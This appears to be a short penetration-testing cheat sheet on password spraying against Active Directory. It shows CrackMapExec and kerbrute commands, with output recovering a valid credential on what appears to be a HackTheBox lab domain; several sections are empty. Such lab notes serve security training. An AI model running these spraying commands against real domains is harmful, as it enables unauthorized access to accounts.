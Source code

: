 # [Password Spraying](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/password-spraying)

> Once you have found several valid usernames you can try the most common passwords (keep in mind the password policy of the environment) with each of the discovered users.
By default the minimum password length is 7

# [SMB](#smb-1)

# [Example](#example-1)

[cme smb $ip -u users-only.txt -p IsolationIsKey?](#cme-smb-ip--u-users-onlytxt--p-isolationiskey)
[kerbrute passwordspray](#kerbrute-passwordspray-users3txt--d-searchhtb---dc-ip-isolationiskey)

# SSH

-------------------------------------------

# SMB

# Example

### cme smb $ip -u users-only.txt -p IsolationIsKey?
```
$ cme smb $ip -u users-only.txt -p IsolationIsKey?
SMB         10.10.11.129    445    RESEARCH         [*] Windows 10.0 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.129    445    RESEARCH         [+] search.htb\hope.sharp:IsolationIsKey?
```

### kerbrute passwordspray users3.txt -d search.htb --dc $ip IsolationIsKey?
```
$ kerbrute passwordspray users3.txt -d search.htb --dc $ip IsolationIsKey?
Version: v1.0.3 (9dad6e1) - 09/19/23 - Ronnie Flathers @ropnop

2023/09/19 05:16:07 >  Using KDC(s):
2023/09/19 05:16:07 >   10.10.11.129:88

2023/09/19 05:16:07 >  [+] VALID LOGIN:  hope.sharp@search.htb:IsolationIsKey?
2023/09/19 05:16:07 >  Done! Tested 4 logins (1 successes) in 0.095 seconds
```


### 
```

```

### 
```

```

### 
```

```

### 
```

```

### 
```

```

### 
```

```

### 
```

```

### 
```

```